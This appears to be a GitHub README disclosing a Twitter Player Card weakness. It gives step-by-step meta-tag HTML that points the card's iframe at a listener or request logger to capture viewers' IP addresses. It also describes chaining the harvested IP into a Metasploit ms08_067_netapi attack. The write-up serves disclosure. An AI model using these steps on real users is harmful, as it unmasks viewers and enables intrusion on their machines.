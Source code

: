 # Twitter Card Backdoor

## Summary

Twitter allows the embedding of videos in a tweet via [Player Cards](https://dev.twitter.com/docs/cards/types/player-card). The problem is in the playing method of the video: currently, it uses a sandbox (`iframe`)  to play the embedded video(s) even when this might be protected against [Cross-site scripting (XSS)](https://en.wikipedia.org/wiki/Cross-site_scripting), still being unsafe because it doesn't protect **HTTP Request Sender**  information such as the **IP Address, User-Agent, and the referer**.
> A lot of Twitter users used to use a VPN to keep these safe from Twitter himself, will they agreed to share them with 3rd-part and this 3rd-part could be anyone

The attacker can embed a link to a request logger or can listen to connections in order to get the IP address of the video viewer.   

## Replication Steps

#### Step 1: Adding the pertinent Twitter meta tags to your page
You need to add some Twitter specific meta tags to your page to enable Twitter Player Cards. 

|Name|Content|
|--- |--- |
|twitter:card|Type of Twitter card; Must be set to a value of “player”|
|twitter:title|The title of your content as it should appear in the card|
|twitter:site|The Twitter @username the card should be attributed to|
|twitter:description|Description of the content (optional)|
|twitter:player|Listener or Request Logger URL **Must be HTTPS URL**|
|twitter:player:width|Width of IFRAME specified in twitter:player in pixels|
|twitter:player:height|Height of IFRAME specified in twitter:player in pixels|
|twitter:image|Image to be displayed in place of the player on platforms that don’t support iframes or inline players; you should make this image the same dimensions as your player|

Here is a example with a listener in 192.168.1.1:2020:

```html
<meta name="twitter:card" content="player" />
<meta name="twitter:title" content="Twitter cards vulnerability" />
<meta name="twitter:description" content="Twitter cards vulnerability allows to get the video viewer IP, Listen to 192.168.1.1:2020 on your machine then play the video you will be surprised" />
<meta name="twitter:player" content="https://192.168.1.1:2020" />
<meta name="twitter:player:width" content="360" />
<meta name="twitter:player:height" content="203" />
<meta name="twitter:image" content="https://upload.wikimedia.org/wikipedia/de/thumb/9/9f/Twitter_bird_logo_2012.svg/154px-Twitter_bird_logo_2012.svg.png" />
```


----------


#### Step 2:  Launch your page


----------


#### Step 3: Validate your card using the Twitter Validator Tool:
Once you have added the meta tags and published the page, copy and paste the URL into the [Twitter Card Validator](https://cards-dev.twitter.com/validator) and then click **Preview Card**.

![F156985](https://cdn.rawgit.com/xc0d3rz/Abstract-jekyll/c690ee51/img/Screenshot_at_2017-02-02_23_41_50.png)

----------


#### Step 4: Request approval for whitelisting
If your domain has not been whitelisted by Twitter, the Player Cards will not appear. When validating the URL, a message will appear stating that the URL has not been whitelisted.


Click **Request Approval** to begin the approval process. You will be required to provide additional information about your domain. For more information on the approval process, see the [Twitter documentation](https://dev.twitter.com/cards/types/player/approval).

![F156986](https://cdn.rawgit.com/xc0d3rz/Abstract-jekyll/c690ee51/img/Screenshot_at_2017-02-02_23_49_24.png)


----------


#### Step 5: Share it on twitter:
When the embedded video is played you might received the viewer(s) IP (I suggest to use a request logger) .

![F156990](https://cdn.rawgit.com/xc0d3rz/Abstract-jekyll/c690ee51/img/Screenshot_at_2017-02-02_23_52_28.png)


### PoC Video

I made a video as a proof of concept, testing the vulnerability on a Virtual Machine running on WINXP SP2 (**Computer B**).
The source code can be found at [poc.html](./poc.html)

I've hosted the page on a server, shared it on twitter and then played the embedded video in the the Virtual Machine. Eventually I got **B's ip address.** by listening to in the port **2020**  coming from **Computer A** to then attack **Computer B** with metasploit's `ms08_067_netapi` exploit gaining access to **Computer A**.
You can find the video [here](https://www.youtube.com/embed/0occxD9v11M).
